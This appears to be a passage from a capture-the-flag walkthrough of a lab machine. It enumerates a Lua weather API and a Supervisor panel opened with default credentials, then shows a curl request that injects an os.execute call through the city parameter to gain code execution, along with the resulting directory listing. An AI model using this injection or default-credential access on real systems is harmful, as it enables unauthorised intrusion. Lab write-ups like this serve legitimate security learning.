 ```bash
{"code": 200,"city": "London","list": [{"date": "2021-02-19","weather": {"description": "snowy","temperature": {"min": "12","max": "46"},"pressure": "1799","humidity": "92","wind": {"speed": "2.1975513692014","degree": "102.76822959445"}}},{"date": "2021-02-20","weather": {"description": "partially cloudy","temperature": {"min": "15","max": "43"},"pressure": "1365","humidity": "51","wind": {"speed": "4.9522297247313","degree": "262.63571172766"}}},{"date": "2021-02-21","weather": {"description": "sunny","temperature": {"min": "19","max": "30"},"pressure": "1243","humidity": "13","wind": {"speed": "1.8041767538525","degree": "48.400944394059"}}},{"date": "2021-02-22","weather": {"description": "sunny","temperature": {"min": "30","max": "34"},"pressure": "1513","humidity": "84","wind": {"speed": "2.6126398323104","degree": "191.63755226741"}}},{"date": "2021-02-23","weather": {"description": "partially cloudy","temperature": {"min": "30","max": "36"},"pressure": "1772","humidity": "53","wind": {"speed": "2.7699138359167","degree": "104.89152945159"}}}]}
```

Besides being possible to query all the information in this API, I couldn't to identify any detail that could be used to get an RCE and possibly an initial access  in this box.

### 9001/TCP - HTTP Service

Searching for `Medusa httpd 1.12 (Supervisor process manager)` I have found that this service could be an application called  [**Supervisor**](https://github.com/Supervisor/supervisor). Searching for its default credentials in the project page, I have found **user:123**, which allowed me to access the portal as below:

![image-20210219140749159](https://i.imgur.com/2fSp0Lx.png){: .align-center}

At first sight we can identify the running version, which is **4.2.0**, and that, unfortunately, has no known vulnerability/working PoC disclosed.

Exploring all available options, an interesting point was noted: the link **processes**. Once you access it all the processes in execution will be listed, but one of them have stood over the others:

```log
_httpd 376 0.0 0.0 34956 2020 ? Is 5:56AM 0:00.13 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
```

As I could understand, the API we were using being published on 80/TCP is an app developed using [LUA](https://www.lua.org/start.html), a programming language developed by PUC-RJ.

## Initial access

Once we're aware that this API was developed in LUA, after some research I came across [this article](https://www.syhunt.com/en/index.php?n=Articles.LuaVulnerabilities), which describes some ways to abuse applications written in LUA using code injection and, after a few testes, I have found something that could lead us to an initial access on this machine.

:bulb: **Note**: The secret is in the content encoding sent on the requests. The easier way I have found was to use `curl` with `--data-urlencode`, simplifying the character escaping on the request.
{: .notice--info}

The final injection, which later allowed me to get an RCE is listed below:

```bash
$ curl -G --data-urlencode "city=London') os.execute('ls -la') x=('" http://10.10.10.218/weather/forecast
{"code": 500,"error": "unknown city: Londontotal 20
drwxr-xr-x 2 root wheel 512 Nov 25 11:27 .
drwxr-xr-x 24 root wheel 512 Nov 24 09:55 ..
-rw-r--r-- 1 root wheel 47 Sep 16 15:07 .htpasswd
-rw-r--r-- 1 root wheel 386 Sep 17 20:56 index.html
-rw-r--r-- 1 root wheel 78 Nov 25 11:38 robots.txt
```
